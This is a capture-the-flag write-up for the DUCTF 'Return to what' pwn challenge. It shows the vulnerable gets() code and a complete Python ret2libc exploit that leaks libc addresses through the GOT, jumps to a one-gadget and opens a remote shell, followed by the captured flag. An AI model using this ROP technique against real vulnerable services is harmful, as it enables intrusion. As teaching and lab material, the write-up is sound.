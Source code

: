 # Return to what [medium]

**Author:** Faith

*This will show my friends!*

`nc chal.duc.tf 30003`

**Attached files:** `return-to-what` (sha256: a679b33db34f15ce27ae89f63453c332ca7d7da66b24f6ae5126066976a5170b)

#### This challenge was quickly finished with [pwnscripts](https://github.com/152334H/pwnscripts). Try it!

And I do really mean *quickly*: Third blood is not something I usually do, with how slowly I write exploits.

## Analysis
There isn't much to scope out here.
```c
void vuln() {
  char s[0x30]; // [rsp+0h] [rbp-30h]
  puts("Where would you like to return to?");
  return gets(s);
}
int main() {
	puts("Today, we'll have a lesson in returns.");
	vuln();
}
```
`gets()` provides an infinte buffer flow, and judging by the challenge title, the goal here is a [ret2libc](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop/#ret2libc) attack.

We're also aided by the lack of general protections:
```python
[*] '/path/to/return-to-what'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
If *all* of these protections were enabled, this challenge would actually be rather difficult.

Hypotheticals aside, there are 3 simple things we need to pwn this challenge:

0. Initialise important stuff
   ```python
   from pwnscripts import *
   context.binary = 'return-to-what'
   context.libc_database = 'libc-database'
   r = remote('chal.duc.tf', 30003)
   ```
1. use Return Oriented Programming to leak out libc addresses from the GOT table. The GOT table is easy to leak with a call to `puts()`; this is only possible because PIE is disabled.
   ```python
   rop = ROP(context.binary)
   rop.raw(b'\0'*0x38)
   rop.puts(context.binary.got['puts'])
   rop.puts(context.binary.got['gets'])
   rop.main()
   r.sendlineafter('to?\n', rop.chain())
   ```
2. using the leaked addreses, identify the remote libc version, and calculate the location of a [one-gadget](https://github.com/david942j/one_gadget). This is really easy with `pwnscripts`:
   ```python
   libc_leaks = {'puts': extract_first_bytes(r.recvline(),6),
				 'gets': extract_first_bytes(r.recvline(),6)}
   context.libc = context.libc_database.libc_find(libc_leaks)	# Will be identified as libc6_2.27-3ubuntu1_amd64
   one_gadget = context.libc.select_gadget(1)
   ```
3. return back to `main()`, and write a jump to get to the `one_gadget`.
   ```python
   rop = ROP(context.binary)
   rop.raw(b'\0'*0x38)
   rop.call(one_gadget)
   rop.raw(b'\0'*99)	# To satisfy one-gadget
   r.sendlineafter('to?\n', rop.chain())
   r.interactive()
   ```

That's it.

```bash
>>> r.interactive()
[*] Switching to interactive mode
ls
flag.txt
return-to-what
```
## Flag
`DUCTF{ret_pUts_ret_main_ret_where???}`